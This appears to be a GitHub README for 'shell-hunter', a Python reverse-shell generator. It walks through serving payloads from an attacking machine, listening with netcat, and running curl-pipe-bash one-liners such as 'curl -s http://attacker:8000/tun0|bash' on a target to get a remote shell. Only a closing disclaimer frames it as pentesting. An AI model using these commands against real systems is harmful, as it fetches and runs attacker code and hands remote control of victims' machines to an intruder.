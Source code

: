 # shell-hunter

> This is a Python version of https://github.com/lukechilds/reverse-shell with additional functionality (if you want to call it that).   
> All credit goes to lukechilds

Easy to remember reverse shell that should work on most Unix-like systems.

Detects available software on the target and runs an appropriate payload.

## Usage

### 1. Start the generator

On your attacking machine, start the generator.  It will auto populate interfaces that have IP addresses and the `curl` command associated with it if no arguments are provided.  Not all interfaces in this output will be relevant.

You can specify the http server listening port as well, otherwise it defaults to 8000.

```generator
usage: shell-hunter.py [-h] [-s SERVER] [-l LISTENER] [-i IPADDRESS] [-I INTERFACE]

Automatic payload generation

optional arguments:
  -h, --help            show this help message and exit
  -s SERVER, --server SERVER
                        Python http server listener
  -l LISTENER, --listener LISTENER
                        nc listener
  -i IPADDRESS, --ipaddress IPADDRESS
                        IP address
  -I INTERFACE, --interface INTERFACE
                        Interface name
```
This is the default output if no flags are provided.  This is only included as a template and the output will change depending on if you include an IP address.  Changing the IP address and/or port is still possible without restarting, but the `curl` template will not refresh.

```output
Shell generator started: 8000
curl -s http://127.0.0.1:8000/lo|bash
curl -s http://10.0.0.85:8000/eth0|bash
curl -s http://10.0.0.85:8000/tun0|bash
curl -s http://172.17.0.1:8000/docker0|bash
```
### 2. Listen for connection

On your machine, open up a port and listen on it. You can do this easily with netcat.

```shell
nc -lvnp 1337
```
### 2. Execute reverse shell on target

On the target machine,

```shell examples
curl -s http://attacker:8000/tun0|bash
curl -s http://attacker:8000/IP:PORT|bash
curl -s http://attacker:8000/IP|bash
```

Go back to your machine, you should now have a shell prompt.

### 3.  Disclaimer

This is meant to be used for pentesting or helping coworkers understand why they should always lock their computers. Please don't use this for anything malicious.  Obligatory "I'm not responsible for your actions and/or misuse of this code"
